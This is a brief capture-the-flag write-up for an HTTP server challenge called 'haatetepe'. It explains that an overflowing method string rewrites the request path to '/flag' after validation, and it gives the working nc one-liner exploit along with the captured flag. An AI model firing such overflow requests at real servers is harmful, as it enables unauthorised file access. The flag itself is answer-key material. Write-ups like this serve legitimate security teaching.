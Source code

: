 # haatetepe

- Stack overflow in method string sets path to illegal path `/flag` after path validation

``` sh
echo "GETaaaaaaaaaaaaa/flag / HTTP/1.1" | nc server port
# NNS{wh4t_d0_y0u_m34n_http_15n7_s3cur3??}
```
